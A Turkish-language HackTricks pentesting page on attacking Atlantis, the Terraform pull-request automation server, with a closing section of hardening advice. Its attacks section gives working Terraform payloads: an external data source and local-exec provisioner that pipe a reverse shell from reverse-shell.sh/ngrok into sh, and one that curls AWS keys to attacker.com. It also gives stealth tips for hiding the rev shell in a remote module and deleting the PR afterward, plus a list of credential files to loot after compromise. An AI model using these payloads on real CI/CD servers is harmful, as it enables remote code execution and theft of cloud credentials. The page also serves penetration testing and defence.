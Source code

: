 # Atlantis Güvenliği

<details>

{% hint style="success" %}
AWS Hacking öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin**.
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Temel Bilgiler

Atlantis temel olarak, terraform'ı git sunucunuzdaki Pull İsteklerinden çalıştırmanıza yardımcı olur.

![](<../.gitbook/assets/image (161).png>)

## Yerel Laboratuvar

1. [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) adresindeki **atlantis sürümleri sayfasına** gidin ve size uygun olanı **indirin**.
2. **Github** kullanıcınızın **repo erişimi** olan bir **kişisel belirteci** oluşturun
3. `./atlantis testdrive` komutunu çalıştırın ve **atlantis ile iletişim kurabileceğiniz bir demo repo** oluşturacaktır.
1. 127.0.0.1:4141 adresindeki web sayfasına erişebilirsiniz

## Atlantis Erişimi

### Git Sunucu Kimlik Bilgileri

**Atlantis**, **Github**, **Gitlab**, **Bitbucket** ve **Azure DevOps** gibi çeşitli git sunucularını destekler.\
Ancak, bu platformlardaki depolara erişmek ve işlemler gerçekleştirmek için, bunlara bazı **ayrıcalıklı erişimlerin verilmiş olması gerekir** (en azından yazma izinleri).\
[**Belgeler**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional), Atlantis için özellikle bu platformlarda bir kullanıcı oluşturmanızı teşvik eder, ancak bazı kişiler kişisel hesaplarını kullanabilir.

{% hint style="warning" %}
Her durumda, bir saldırganın bakış açısından, **Atlantis hesabı** çok **ilginç bir hedef olacaktır**.
{% endhint %}

### Webhooks

Atlantis, **Webhook sırlarını** isteğe bağlı olarak kullanır, böylece aldığı **webhook'ların** Git sunucunuzdan **geçerli** olduğunu doğrular.

Bunu doğrulamanın bir yolu, isteklerin yalnızca Git sunucunuzun IP'lerinden gelmesine izin vermek olabilir, ancak daha kolay bir yol Webhook Sırrı kullanmaktır.

Özel bir github veya bitbucket sunucusu kullanmadıkça, webhook uç noktalarını İnternete açmanız gerekeceğini unutmayın.

{% hint style="warning" %}
Atlantis, git sunucusunun bilgileri gönderebilmesi için **webhook'ları açığa çıkaracak**, bu nedenle bir saldırganın bakış açısından önemli olabilir **onun mesaj gönderebilir mi** öğrenmek.
{% endhint %}

### Sağlayıcı Kimlik Bilgileri <a href="#provider-credentials" id="provider-credentials"></a>

[Belgelerden:](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis, Terraform'ı sadece **`terraform plan` ve `apply`** komutlarını **çalıştırarak** çalıştırır. Yerel olarak Terraform çalıştırdığınızda olduğu gibi, Atlantis'in belirli sağlayıcınız için kimlik bilgilerine ihtiyacı vardır.

Sağlayıcınıza özgü kimlik bilgilerini Atlantis'e nasıl sağlayacağınıza siz karar verirsiniz:

* Atlantis [Helm Şeması](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) ve [AWS Fargate Modülü](https://www.runatlantis.io/docs/deployment.html#aws-fargate) sağlayıcı kimlik bilgileri için kendi mekanizmalarına sahiptir. Belgelerini okuyun.
* Atlantis'i bir bulutta çalıştırıyorsanız, birçok bulutun üzerinde çalışan uygulamalara bulut API erişimi verme yolları vardır, örn:
* [AWS EC2 Roller](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) ("EC2 Rolü" arayın)
* [GCE Örnek Hizmet Hesapları](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Birçok kullanıcı ortam değişkenleri ayarlar, örn. `AWS_ACCESS_KEY`, Atlantis'in çalıştığı yerde.
* Diğerleri gerekli yapılandırma dosyalarını oluşturur, örn. `~/.aws/credentials`, Atlantis'in çalıştığı yerde.
* Sağlayıcı kimlik bilgilerini almak için [HashiCorp Vault Sağlayıcısını](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) kullanın.

{% hint style="warning" %}
**Atlantis'in çalıştığı konteynerin** büyük olasılıkla, Terraform aracılığıyla yönettiği sağlayıcılara (AWS, GCP, Github...) ait **ayrıcalıklı kimlik bilgileri** içerecektir.
{% endhint %}

### Web Sayfası

Varsayılan olarak Atlantis, **localhost'ta 4141 numaralı portta** bir **web sayfası çalıştıracaktır**. Bu sayfa sadece atlantis uygulamasını etkinleştirmenize / devre dışı bırakmanıza ve depoların plan durumunu kontrol etmenize ve kilidini açmanıza izin verir (şeyleri değiştirmenize izin vermez, bu yüzden çok kullanışlı değildir).

İnternete açık bulamayabilirsiniz, ancak varsayılan olarak erişmek için **kimlik bilgilerine ihtiyaç olmadığı** görünüyor (ve varsa, `atlantis`:`atlantis` **varsayılan** olanlardır).

## Sunucu Yapılandırması

`atlantis server` yapılandırması, komut satırı bayrakları, ortam değişkenleri, bir yapılandırma dosyası veya üçünün bir karışımı aracılığıyla belirtilebilir.

* Atlantis sunucusu tarafından desteklenen [**bayrakların listesini burada bulabilirsiniz**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration)
* Bir yapılandırma seçeneğini bir ortam değişkenine nasıl dönüştüreceğinizi [**burada bulabilirsiniz**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Değerler **şu sırayla seçilir**:

1. Bayraklar
2. Ortam Değişkenleri
3. Yapılandırma Dosyası

{% hint style="warning" %}
Yapılandırmada **belirli değerler** gibi ilginç değerler bulabilirsiniz, örneğin **belirteçler ve şifreler**.
{% endhint %}

### Depoların Yapılandırılması

Bazı yapılandırmalar **depoların nasıl yönetildiğini etkiler**. Ancak, **her depo için farklı ayarların gereklilik olabileceği** için her depoyu belirtmenin yolları vardır. Bu öncelik sırasıdır:

1. Depo [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config) dosyası. Bu dosya, atlantis'in depoyu nasıl işlemesi gerektiğini belirtmek için kullanılabilir. Ancak, varsayılan olarak bazı anahtarlar burada belirtilmeden kullanılamaz.
1. Muhtemelen `allowed_overrides` veya `allow_custom_workflows` gibi bayraklar tarafından izin verilmesi gerekebilir
2. [**Sunucu Tarafı Yapılandırma**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Bu, her depo için yeni ayarlar yapılandıran bir yaml'dir ve `--repo-config` bayrağı ile iletilir (regexler desteklenir)
3. **Varsayılan** değerler
#### PR Korumaları

Atlantis, **PR**'nin **`onaylanmasını`** başka bir kişiye bırakmak isteyip istemediğinizi belirtmenize izin verir (bu, dal korumasında ayarlanmamış olsa bile) ve/veya **uygulanmadan önce** **`birleştirilebilir`** olmasını sağlar (dal korumaları geçildi). Güvenlik açısından, her iki seçeneğin de ayarlanması önerilir.

Eğer `allowed_overrides` True ise, bu ayarlar **her projede `/atlantis.yml` dosyası ile üzerine yazılabilir**.

#### Komut Dosyaları

Depo yapılandırması, bir **iş akışının yürütülmesinden [**önce**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_ön iş akışı kancaları_) ve [**sonrasında**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_son iş akışı kancaları_) çalıştırılacak komut dosyalarını **belirtebilir**.

Bu komut dosyalarını **depoda `/atlantis.yml`** dosyasında **belirtme** seçeneği bulunmamaktadır.

#### İş Akışı

Depo yapılandırmasında (sunucu tarafı yapılandırma) [**yeni varsayılan bir iş akışı belirtebilir**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow) veya [**yeni özel iş akışları oluşturabilirsiniz**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Ayrıca, oluşturulan **yeni** iş akışlarına **erişebilecek** **depoları belirtebilirsiniz**.\
Daha sonra, her depo için **atlantis.yaml** dosyasına **kullanılacak iş akışını belirtebilirsiniz**.

{% hint style="danger" %}
Eğer [**sunucu tarafı yapılandırma**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) bayrağı `allow_custom_workflows` **True** olarak ayarlanmışsa, iş akışları her depodaki **`atlantis.yaml`** dosyasında **belirtilebilir**. Ayrıca, **`allowed_overrides`**'ın ayrıca **`workflow`**'u **geçersiz kılama iş akışını belirtmesi gerekebilir**.\
Bu temelde, bu, **o depoya erişebilen her kullanıcıya Atlantis sunucusunda RCE verecektir**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Conftest Politika Kontrolü

Atlantis, plan çıktısına karşı **sunucu tarafında** [**conftest**](https://www.conftest.dev/) **politikalarını** çalıştırmayı destekler. Bu adımı kullanmanın yaygın kullanım durumları şunları içerir:

* Bir modül listesinin kullanımını reddetme
* Bir kaynağın oluşturma zamanındaki özelliklerini doğrulama
* Kazara kaynak silmelerini yakalama
* Güvenlik risklerini önleme (ör. güvenli bağlantı noktalarını genel kullanıma açma)

Nasıl yapılandırılacağını [**belgelerde**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works) kontrol edebilirsiniz.

## Atlantis Komutları

[**Belgelerde**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) Atlantis çalıştırmak için kullanabileceğiniz seçenekleri bulabilirsiniz:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Saldırılar

{% hint style="warning" %}
Eğer sömürü sırasında bu **hata**'yı bulursanız: `Error: Error acquiring the state lock`

Çözebilirsiniz, şu şekilde çalıştırarak:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis plan RCE - Yeni PR'de Yapılandırma Değişikliği

Eğer bir depo üzerinde yazma erişiminiz varsa, üzerinde yeni bir dal oluşturabilir ve bir PR oluşturabilirsiniz. Eğer `atlantis plan` komutunu **çalıştırabilirseniz** (veya belki otomatik olarak çalıştırılıyorsa) **Atlantis sunucusu içinde RCE yapabilirsiniz**.

Bunu yapabilirsiniz [**Atlantis'ın harici bir veri kaynağını yüklemesini sağlayarak**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Sadece aşağıdaki gibi bir yükü ekleyin `main.tf` dosyasına:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Görünmez Saldırı

Bu saldırıyı daha **görünmez bir şekilde** gerçekleştirebilirsiniz, aşağıdaki önerileri takip ederek:

* Terraform dosyasına doğrudan rev shell eklemek yerine, rev shell içeren **harici bir kaynağı yükleyebilirsiniz**:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Rev shell kodunu [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) adresinde bulabilirsiniz.

* Dış kaynaktaki **ref** özelliğini kullanarak, **terraform rev shell kodunu bir dal içinde gizlemek** için şuna benzer bir şey yapın: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* Atlantis'i tetiklemek için **master'a PR oluşturmak yerine**, **2 dal oluşturun** (test1 ve test2) ve birinden diğerine bir **PR oluşturun**. Saldırıyı tamamladığınızda, sadece **PR'yi ve dalları kaldırın**.

### Atlantis Plan Secrets Dump

`atlantis plan` (`terraform plan`) çalıştırarak **terraform tarafından kullanılan sırları dökebilirsiniz**. Terraform dosyasına şöyle bir şey ekleyerek:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis uygula RCE - Yeni PR'de Config değişikliği

Eğer bir depoya yazma erişiminiz varsa, üzerinde yeni bir dal oluşturabilir ve bir PR oluşturabilirsiniz. **`atlantis apply` komutunu çalıştırabilirseniz Atlantis sunucusu içinde RCE yapabilirsiniz**.

Ancak genellikle bazı korumaları atlatmanız gerekecektir:

* **Birleştirilebilir**: Eğer bu koruma Atlantis'te ayarlanmışsa, **`atlantis apply` komutunu sadece PR birleştirilebilirse çalıştırabilirsiniz** (bu da demek oluyor ki dal korumasını atlatmanız gerekmektedir).
* Potansiyel [**dal korumaları atlatmalarını kontrol edin**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
* **Onaylı**: Eğer bu koruma Atlantis'te ayarlanmışsa, **başka bir kullanıcının PR'yi onaylaması gerekmektedir** ki `atlantis apply` komutunu çalıştırabilin.
* Varsayılan olarak, bu korumayı atlatmak için [**Gitbot token'ını kötüye kullanabilirsiniz**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

**Kötü niyetli Terraform dosyasında `terraform apply` komutunu çalıştırma** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)** ile.**\
Sadece aşağıdaki gibi bir payload'ın `main.tf` dosyasında bulunduğundan emin olmanız gerekmektedir:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
### Terraform Param Enjeksiyonu

`atlantis plan` veya `atlantis apply` çalıştırılırken terraform altında çalıştırıldığında, atlantis üzerinden terraform'a komutlar iletmek için aşağıdaki gibi yorum satırı ekleyebilirsiniz:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
### Özel İş Akışı

Bazı korumaları atlamaya yardımcı olabilecek ortam değişkenlerini geçebileceğiniz bir şeydir. Terraform ortam değişkenlerini [buradan](https://www.terraform.io/cli/config/environment-variables) kontrol edin.

**Kötü niyetli özel derleme komutlarını** çalıştırma, `atlantis.yaml` dosyasında belirtilen. Atlantis, `master`'ın değil, çekme isteği dalındaki `atlantis.yaml` dosyasını kullanır.\
Bu olasılık önceki bir bölümde belirtilmiştir:

{% hint style="danger" %}
Eğer [**sunucu tarafı yapılandırması**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) bayrağı `allow_custom_workflows` **True** olarak ayarlanmışsa, iş akışları her depodaki **`atlantis.yaml`** dosyasında **belirtilebilir**. Ayrıca, **`allowed_overrides`**'in ayrıca **`workflow`**'u belirtmesi gerekebilir, böylece kullanılacak olan iş akışı **geçersiz kılınabilir**.

Bu temelde, bu, **o depoya erişebilen herhangi bir kullanıcıya Atlantis sunucusunda RCE verecektir**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Atlatma plan/uygulama korumaları

Eğer [**sunucu tarafı yapılandırması**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) bayrağı `allowed_overrides` _şeklinde_ yapılandırılmışsa, bir depoya **planı/uygulama korumalarını değiştirerek bunları atlamak mümkün olabilir**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### PR Hijacking

Eğer birisi **geçerli pull isteklerinize** **`atlantis plan/apply` yorumları gönderirse,** terraformun istenmeyen şekilde çalışmasına neden olacaktır.

Ayrıca, eğer **branch korumasında** herhangi bir **yeni commit itildiğinde PR'nin yeniden değerlendirilmesini istemeye** yönelik bir yapılandırma yapmazsanız, birisi terraform yapılandırmasına **kötü niyetli yapılandırmalar** (önceki senaryoları kontrol edin) yazabilir, `atlantis plan/apply` çalıştırabilir ve RCE elde edebilir.

Bu, Github branch korumalarındaki **ayar** şudur:

![](<../.gitbook/assets/image (216).png>)

### Webhook Secret

Eğer **kullanılan webhook secret'ı çalmayı başarırsanız** veya **hiçbir webhook secret'ı kullanılmıyorsa**, Atlantis webhook'unu **çağırabilir** ve **atlantis komutlarını doğrudan çağırabilirsiniz**.

### Bitbucket

Bitbucket Cloud **webhook secret'ı desteklemez**. Bu, saldırganların Bitbucket'tan **sahte istekler yapmasına** izin verebilir. Yalnızca Bitbucket IP'lerine izin verdiğinizden emin olun.

* Bu, bir **saldırganın** Bitbucket'tan geldiği gibi görünen **Atlantis'a sahte isteklerde bulunabileceği** anlamına gelir.
* `--repo-allowlist` belirtiyorsanız, yalnızca bu depolarla ilgili sahte isteklerde bulunabilirler, bu yüzden yapabilecekleri en büyük zarar kendi depolarınızda plan/apply yapmaktır.
* Bunu önlemek için [Bitbucket'ın IP adreslerine](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) izin verin (Çıkış IPv4 adreslerine bakın).

## Sonrası Sızma

Sunucuya erişmeyi başardıysanız veya en azından bir LFI elde ettiyseniz okumaya çalışmanız gereken bazı ilginç şeyler vardır:

* `/home/atlantis/.git-credentials` VCS erişim kimlik bilgilerini içerir
* `/atlantis-data/atlantis.db` Daha fazla bilgi içeren VCS erişim kimlik bilgilerini içerir
* `/atlantis-data/repos/<org_adı>`_`/`_`<repo_adı>/<pr_num>/<çalışma_alanı>/<dizin_yolu>/.terraform/terraform.tfstate` Terraform durum dosyası
* Örnek: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Ortam değişkenleri
* `/proc/[2-20]/cmdline` `atlantis server`'ın komut satırı (duyarlı veriler içerebilir)

## Hafifletmeler

### Genel Depolarda Kullanmayın <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Herkes genel pull isteklerine yorum yapabilir, mevcut tüm güvenlik hafifletmelerine rağmen, güvenlik ayarlarının doğru yapılandırılmadan genel depolarda Atlantis çalıştırmak tehlikelidir.

### `--allow-fork-prs` Kullanmayın <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Önerilmeyen genel bir depoda çalışıyorsanız, `--allow-fork-prs` (varsayılan olarak false) ayarını yapmamalısınız çünkü herkes kendi fork'undan repo'nuzdaki bir pull isteği açabilir.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis, `--repo-allowlist` bayrağı aracılığıyla web kancalarını kabul edeceği depoların bir izin listesini belirtmenizi gerektirir. Örneğin:

* Belirli depolar: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Tüm organizasyonunuz: `--repo-allowlist=github.com/runatlantis/*`
* GitHub Enterprise yüklemenizdeki tüm depolar: `--repo-allowlist=github.yourcompany.com/*`
* Tüm depolar: `--repo-allowlist=*`. Bir webhook secret belirlemeden güvenli bir ağda olmanız durumunda faydalıdır ancak tehlikelidir.

Bu bayrak, Atlantis yüklemenizin kontrolünüz dışındaki depolarla kullanılmadığından emin olur. Daha fazla ayrıntı için `atlantis server --help`'e bakın.

### Terraform Planlamasını Koruma <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Saldırganların kötü niyetli Terraform kodlarıyla pull istekleri göndermesi tehdit modelinizdeyse, `terraform apply` onayları yeterli değildir. Bir `terraform plan` içinde kötü niyetli kod çalıştırmak mümkündür, [`external` veri kaynağı](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) veya kötü niyetli bir sağlayıcı belirterek. Bu kod daha sonra kimlik bilgilerinizi dışarıya çıkarabilir.

Bunu önlemek için şunları yapabilirsiniz:

1. Sağlayıcıları Atlantis görüntüsüne veya ana bilgisayara yerleştirin ve üretimde çıkışı reddedin.
2. Sağlayıcı kaydı protokolünü içeride uygulayın ve genel çıkışı reddedin, böylece kimin sağlayıcı kaydına yazma erişimine sahip olduğunu kontrol edersiniz.
3. [Sunucu tarafı repo yapılandırmanızı](https://www.runatlantis.io/docs/server-side-repo-config.html) `plan` adımını yasaklayacak şekilde değiştirin, yasaklı sağlayıcıların veya veri kaynaklarının kullanımını doğrulayın veya izin verilmeyen kullanıcılardan gelen PR'leri reddedin. Bu noktada ek doğrulama ekleyebilirsiniz, örneğin `plan`'ın devam etmesine izin vermeden önce PR'a "thumbs-up" gerektirebilirsiniz. Conftest burada kullanışlı olabilir.

### Webhook Secrets <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis, `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` ortam değişkenleri aracılığıyla ayarlanmış Webhook secret'ı ile çalıştırılmalıdır. `--repo-allowlist` bayrağı ayarlanmış olsa bile, webhook secret olmadan saldırganlar, izin verilen bir depo gibi davranarak Atlantis'a isteklerde bulunabilir. Webhook secret'lar, webhook isteklerinin gerçekten VCS sağlayıcınızdan (GitHub veya GitLab) geldiğini sağlar.

Azure DevOps kullanıyorsanız, webhook secret'lar yerine temel bir kullanıcı adı ve şifre ekleyin.

### Azure DevOps Temel Kimlik Doğrulaması <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps, tüm webhook etkinliklerinde temel kimlik doğrulama başlığı göndermeyi destekler. Webhook konumunuz için bir HTTPS URL kullanmanızı gerektirir.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Webhook secret'larını kullanıyorsanız ancak trafiğiniz HTTP üzerinden ise, webhook secret'lar çalınabilir. `--ssl-cert-file` ve `--ssl-key-file` bayraklarını kullanarak SSL/HTTPS'yi etkinleştirin.

### Atlantis Web Sunucusunda Kimlik Doğrulamasını Etkinleştirme <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Web hizmetinde kimlik doğrulamasını etkinleştirmek çok önerilir. `--web-basic-auth=true` kullanarak BasicAuth'i etkinleştirin ve `--web-username=yourUsername` ve `--web-password=yourPassword` bayraklarıyla bir kullanıcı adı ve şifre belirleyin.

Bunları ayrıca ortam değişkenleri olarak geçirebilirsiniz `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` ve `ATLANTIS_WEB_PASSWORD=yourPassword`.

## Referanslar

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
AWS Hacking öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Destek HackTricks</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github depolarına PR göndererek hacking püf noktalarını paylaşın.

</details>
{% endhint %}
